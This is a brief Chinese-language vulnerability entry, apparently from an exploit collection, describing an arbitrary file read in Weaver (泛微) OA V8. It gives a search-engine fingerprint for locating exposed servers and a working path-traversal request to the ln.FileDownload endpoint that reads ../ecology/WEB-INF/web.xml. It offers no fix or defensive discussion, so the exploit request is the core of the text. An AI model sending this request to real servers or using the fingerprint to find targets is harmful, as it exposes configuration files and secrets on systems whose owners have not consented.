

# 泛微OA ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
泛微OA V8
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登陆页面


验证POC

```
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

